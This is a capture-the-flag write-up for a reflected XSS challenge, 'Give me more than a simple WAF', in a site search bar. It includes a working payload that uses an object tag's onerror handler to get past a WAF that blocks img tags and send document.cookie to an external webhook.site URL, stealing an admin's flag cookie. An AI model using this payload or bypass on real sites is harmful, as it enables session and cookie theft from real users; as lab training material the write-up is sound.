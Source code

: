 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: XSS vulnerability but this time protected by a Web Application Firewall
- Where: *Search* bar
- Impact: We can inject some code in the *search* bar that will be reflected in the web browser only this time the WAF is blocking some words. This code can include a link to a website you are controlling and by doing a request to it you can collect the cookies of who did the request

## Steps to reproduce

1. Similar to the previous challenge `My favourite cookies` but change the payload to `<object data="https://webho" onerror="this.data='https://webhook.site/cb7a6cb9-b6c7-4409-b550-cac7a12ceab4?c='+document.cookie; this.removeAttribute('onerror');"></object>` because the **img** tag is blocked by the WAF. We use the **object** tag to replace it because it can also have an URL value on the **data** parameter
2. Like in the previous challenge there is an admin's cookie called **SECRET** whose value is the flag
